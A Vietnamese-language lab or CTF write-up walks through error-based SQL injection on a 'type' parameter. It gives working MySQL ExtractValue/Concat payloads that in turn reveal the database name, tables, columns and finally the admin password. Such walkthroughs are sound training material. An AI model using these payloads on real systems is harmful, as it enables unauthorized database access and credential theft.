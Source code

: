 ## Error Based SQLi

`Description:` có 1 input đầu vào là `type` và hiện thị bảng chi tiết sản phẩm.

![image](https://user-images.githubusercontent.com/92881216/221093680-1f7db4d9-74cf-4807-b3d4-a5f098765e42.png)

Đầu tiên khi thêm các ký tự đặc biệt thì có lỗi SQL trả về vì vậy có thể khai thác theo Error Based SQLi.

![image](https://user-images.githubusercontent.com/92881216/221093948-2f67ac49-0d8a-4f65-82e0-c17560b294fa.png)

Ở đây, em sử dựng hàm `ExtractValue(xml_document, xpath)`. Đây là hàm để trích xuất giá trị từ XML theo một đường dẫn XPath.

Em để tham số đầu tiên trong hàm là `null` và khi đó tham số thứ 2 sẽ dùng để tạo chuỗi XML để trích xuất giá trị để khai thác.

Payload : `' and ExtractValue('',Concat(0x0a,(select database())))-- -`

Khi đó hàm `concat()` sử dụng để nối chuỗi có ký tự `0x0a` là ký tự xuống xong nối với kết quả câu query `select database()` để tạo chuỗi XML và chuỗi XML này truyền được vào hàm `extractvalue()`.

![image](https://user-images.githubusercontent.com/92881216/221098862-d7775c7e-7a69-4be0-9896-5a9cb7dca2dc.png)

Như vậy có lỗi xảy ra và dump ra tên database là `kcsc`.

Tiếp tục thay đổi câu truy vấn để khai thác tiếp.

- Truy xuất ra bảng trong db bằng câu truy vấn `SELECT table_name FROM information_schema.tables WHERE table_schema = database()`.

Khi đó payload là: `' and ExtractValue('',Concat(0x0a,(SELECT table_name FROM information_schema.tables WHERE table_schema = database())))-- -`

![image](https://user-images.githubusercontent.com/92881216/221099228-bf7b9dfc-1221-4c1c-97ca-944ca10e7162.png)

Vậy db có nhiều bảng nên phải sử dụng limit :

![image](https://user-images.githubusercontent.com/92881216/221099525-400386d0-b2b5-4ec7-8c04-2d983e7b78d5.png)

Với limit 1,1 sẽ dump ra bảng `users` (bảng cần khai thác)

- Tiếp tục truy xuất tên cột

Payload `' and ExtractValue('',Concat(0x0a,(SELECT column_name FROM information_schema.columns WHERE table_name = 'users' limit 2,1)))-- -`

Với limit 0,1 dump ra cột `id`, limit 1,1 là `username` và limit 2,1 là `password` (cột cần khai thác).

![image](https://user-images.githubusercontent.com/92881216/221099969-c3b364a5-9999-46c0-aa26-c251ca7ba4c7.png)

- Cuối cùng là truy xuất ra `password` của `admin`:

Payload: `' and ExtractValue('',Concat(0x0a,(SELECT password FROM users WHERE username = 'admin')))-- -`

Kết quả:

![image](https://user-images.githubusercontent.com/92881216/221100230-ebb8b9cb-9887-4ded-a40b-724a0f15f0ac.png)

> password admin: `the_admin_password`



 




